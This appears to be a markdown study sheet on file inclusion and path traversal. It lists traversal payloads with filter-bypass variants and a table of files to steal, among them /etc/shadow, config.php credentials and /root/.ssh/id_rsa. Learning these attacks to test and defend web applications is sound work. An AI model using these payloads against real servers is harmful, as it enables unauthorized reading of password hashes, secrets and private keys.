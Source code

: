 🗂️ **File Inclusion** is a vulnerability that allows an attacker to include (load) files from the local server or external sources into a web application.
- It happens when user input is improperly handled in file path operations.
- Two main types:
    - **LFI (Local File Inclusion)** – Loads files from the same server.
    - **RFI (Remote File Inclusion)** – Loads files from remote servers.

---
## 🪜 Path Traversal

### 📌 What Is It?
**Path Traversal** (or Directory Traversal) allows attackers to break out of the intended directory and access arbitrary files on the server by injecting sequences like `../`.

It is a **core technique used in LFI**.
In PHP, occurs when user's input is passed to functions like `file_get_contents` to read the content of a file.
### 🧪 Payload Examples

```text
?page=../../../../etc/passwd
?page=..%2f..%2f..%2fetc%2fpasswd         # URL-encoded
?page=....//....//....//etc/passwd       # Filter bypass
?page=..\\..\\..\\windows\\win.ini       # Windows
```
### 🧠 Bypass Techniques

|Technique|Payload Example|
|---|---|
|Double encoding|`%252e%252e%252f` (decodes to `../../`)|
|Null byte injection (older PHP)|`../../etc/passwd%00`|
|Obfuscation|`....//etc/passwd`|
|Mixed slashes|`/etc\passwd` or `.\..\..\`|

### 📂 Target Files

#### 🐧 Linux

| File                          | Purpose                                |
| ----------------------------- | -------------------------------------- |
| `/etc/passwd`                 | Lists system users                     |
| `/etc/shadow`                 | Password hashes (root-only)            |
| `/proc/self/environ`          | Environment vars (includes User-Agent) |
| `/var/log/apache2/access.log` | May contain log-injected payloads      |
| `config.php`                  | Web app secrets and credentials        |
| `/root/.ssh/id_rsa`           | Private SSH key                        |
